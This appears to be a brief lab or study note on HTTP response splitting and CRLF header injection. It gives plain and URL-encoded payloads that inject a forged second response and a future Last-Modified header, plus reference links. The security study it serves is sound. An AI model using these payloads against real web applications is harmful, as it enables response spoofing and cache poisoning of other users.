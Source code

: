 ## HTTP SPLITTING

### (part 1)

Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'

```
language=enContent-Length: 0HTTP/1.1 200 OKContent-Type: text/htmlContent-Length: 10Test
```

turns to

```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.

| Environment | CRLF Used | encoded |
| ----------- | --------- | ------- |
| Windows     | CRLF      | %0d%0a  |
| Unix        | LF        | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection

[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF

[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)

### (part 2)

Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests *encode uri for below*

```
language=enContent-Length: 0HTTP/1.1 200 OKContent-Type: text/htmlLast-Modified: Fri, 1 Jan 2030 00:00:00 GMTContent-Length: 4Test
```
